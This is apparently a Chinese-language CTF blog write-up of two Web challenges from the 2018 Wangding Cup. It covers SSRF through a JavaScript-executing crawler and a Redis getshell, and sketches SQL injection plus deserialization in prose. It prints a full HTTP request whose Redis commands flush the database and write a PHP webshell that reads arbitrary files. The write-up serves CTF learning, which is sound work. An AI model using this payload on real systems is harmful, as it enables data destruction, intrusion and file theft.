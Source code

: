 ```yaml
---
title: 网鼎杯第一场Web总结
date: 2018-08-20 11:13:40
tags:
- CTF
- Web
- Exploit
categories: CTF
description: 总结比赛中二道Web题目
---
```

一年没做CTF了，想来假期无聊去试试这个比赛。Web题目因为各种原因下午才真正放出

### 【第一题Spider】 

比赛的官方wrtieup：<https://mp.weixin.qq.com/s/yZ-Xp32tCPWbDiFgAHiWgw>

在这题比赛过程遇到的问题：

- 应该先扫目录和文件，CTF中robots、flag.php、后台等这类尤其重要
- javascript运用需要熟练。本题需要HTTP访问操作、端口扫描和结合redis的getshell操作
- 解决Web题需要具备的能力：快速搞懂应用流程，建立其运行模型，并且需要猜测服务端的运行原理

这道题的动态爬虫（因为服务端会解析并运行javascript）导致了一个SSRF

<https://segmentfault.com/a/1190000004322487>  XMLHttpRequest  教程，分析较深入

![img](https://saferman.github.io/assets/img/ctf/readyState.png)

可以页面调试，发现readyState会逐渐变换
XMLHttpRequest.status 返回服务器状态码   浏览器调试发现一直为0，后来明白执行了跨域操作
编写Javascript  执行AJAX请求和JS端口扫描 （参考官方writeup）



接着根据提示Redis getShell和8000端口：因为不同端口，所以存在跨域，需要加上Access-Control-Allow-Origin:* 头部。构造一个Redis EXP。（参考官方writeup）

Burp截包如下：

```
POST / HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Length: 320
Content-Type: multipart/form-data; boundary=---------------------------15762740617557
Origin: http://127.0.0.1
Connection: close

-----------------------------15762740617557
Content-Disposition: form-data; name="0"

flushall
config set dir /var/www/html/
config set dbfilename shell.php
set 1 "\n\n<?php header('Access-Control-Allow-Origin:*'); echo file_get_contents($_GET[0]);?>\n\n"
save
quit
-----------------------------15762740617557--
```

至此写入webshell

### 【第二题fakebook】

本题就是SQL+反序列化+LFR，挺简单的

找到页面的注册点，使用sqlmap扫出问题然后查看目录的robots.txt文件发现有user.php.bak，下载查看到UserInfo类的源码，最后反序列化读取flag.php得到FLAG



